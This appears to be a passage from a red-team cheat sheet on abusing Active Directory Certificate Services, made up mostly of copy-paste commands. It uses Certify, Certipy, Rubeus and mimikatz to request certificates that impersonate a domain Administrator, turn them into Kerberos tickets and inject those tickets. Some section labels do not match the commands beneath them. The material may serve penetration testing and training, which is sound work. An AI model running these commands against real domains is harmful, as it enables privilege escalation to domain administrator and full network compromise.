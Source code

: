 ## 🔗 CROSS-REFERENCES
- See `12_Kerberos_Master_Index.md` for Kerberos basics and ticket usage
- See `16_Kerberos_Advanced_Attacks.md` for ticket injection and abuse
- See `01_Tool_Setup_Loading.md` for installing Certify, Certipy, and Rubeus
- See `11_Detection_Blue_Team.md` and `12_Detection_Red_Team.md` for detection/evasion

---

## 🚀 Complete AD CS Abuse Workflows

### 1) ESC1/ESC2: EnrolleeSuppliesSubject and SAN Abuse (Certify)
```powershell
# Find vulnerable templates
.\Certify.exe find /enrolleeSuppliesSubject

# Request a certificate impersonating Administrator (subject CN)
.\Certify.exe request /ca:CA01.cybercorp.local /template:User /subject:CN=Administrator /outfile:admin.pfx /password:P@ssw0rd!

# Alternative: Abuse SAN (SubjectAltName) if allowed
.\Certify.exe request /ca:CA01.cybercorp.local /template:User /altname:administrator@cybercorp.local /outfile:admin-san.pfx /password:P@ssw0rd!

# Use certificate for PKINIT to get TGT
.\Rubeus.exe asktgt /user:Administrator /certificate:admin.pfx /password:P@ssw0rd! /outfile:admin.kirbi

# Inject TGT and operate
.\mimikatz.exe "kerberos::ptt admin.kirbi" "exit"
```

### 2) ESC3/ESC4: Client Authentication EKU and Any Purpose EKU (Certipy)
```bash
# Enumerate templates and CAs
certipy find -u 'user@cybercorp.local' -p 'Password123!' -dc-ip 10.0.0.10 -vulnerable

# Request a client-auth certificate from vulnerable template (e.g., User)
certipy req -u 'user@cybercorp.local' -p 'Password123!' -target 'ca01.cybercorp.local' \
  -template 'User' -upn 'administrator@cybercorp.local' -key-size 2048 -out admin

# Authenticate using PKINIT and get TGT
certipy auth -pfx admin.pfx -dc-ip 10.0.0.10 -username 'Administrator' -domain 'cybercorp.local' -no-pass

# Reusable: convert PFX to PEM if needed
certipy cert -pfx admin.pfx -keyout admin.key -certout admin.crt
```
